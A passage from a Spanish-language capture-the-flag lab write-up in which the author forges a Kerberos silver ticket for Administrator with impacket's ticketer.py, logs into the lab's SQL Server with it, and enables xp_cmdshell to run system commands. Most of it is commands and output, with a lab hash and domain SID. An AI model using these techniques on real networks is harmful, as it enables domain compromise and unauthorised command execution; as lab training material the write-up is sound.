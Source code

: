 Usaremos la herramienta de impacket `ticketer.py` para forjar un ticket del usuario Administrador para el servicio de SQL Server

{% highlight bash %}
# Notar que puedes colocarle el SPN que quieras
 ticketer.py -nthash 6f6a4a7d7965cff1887f2a7835eec187 -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -spn "IlovePen*s/dc.sequel.htb" -domain sequel.htb Administrator
Impacket v0.10.1.dev1+20230616.115447.d1f16d8e - Copyright 2022 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sequel.htb/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in Administrator.ccache
{% endhighlight %}

y bueno, esto nos permite el acceso aún con lo que le hemos puesto de SPN

{% highlight bash %}
❯ export KRB5CCNAME=Administrator.ccache
❯ klist
Ticket cache: FILE:Administrator.ccache
Default principal: Administrator@SEQUEL.HTB

Valid starting     Expires            Service principal
20/06/23 03:17:20  17/06/33 03:17:20  IlovePen*s/dc.sequel.htb@SEQUEL.HTB
	renew until 17/06/33 03:17:20
    ❯ mssqlclient.py -k -no-pass Administrator@dc.sequel.htb
Impacket v0.10.1.dev1+20230616.115447.d1f16d8e - Copyright 2022 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sequel\Administrator  dbo@master)>
{% endhighlight %}

Siendo Administrador aquí podemos habilitar el resto de Stored Procedures delicadas y hacer cositas como escalar privilegios a SYSTEM directamente desde aquí.

{% highlight bash %}
SQL (sequel\Administrator  dbo@master)> sp_configure 'show advanced options',1
[*] INFO(DC\SQLMOCK): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sequel\Administrator  dbo@master)> reconfigure
SQL (sequel\Administrator  dbo@master)> sp_configure 'xp_cmdshell',1
[*] INFO(DC\SQLMOCK): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sequel\Administrator  dbo@master)> reconfigure
SQL (sequel\Administrator  dbo@master)> xp_cmdshell "whoami /priv"
output                                                                             
--------------------------------------------------------------------------------   
NULL                                                                               

PRIVILEGES INFORMATION                                                             